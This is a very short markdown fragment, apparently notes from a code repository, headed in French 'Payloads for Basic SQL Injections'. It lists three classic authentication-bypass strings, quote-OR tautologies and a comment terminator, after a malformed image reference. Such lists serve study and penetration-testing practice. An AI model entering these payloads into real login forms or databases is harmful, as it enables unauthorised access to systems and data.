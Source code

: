 # Payloads pour Basics Injections SQL :

- Payload 1 : ' OR '1
- Payload 2 : ' OR 1 -- -
- Payload 3 : ' OR '' = '
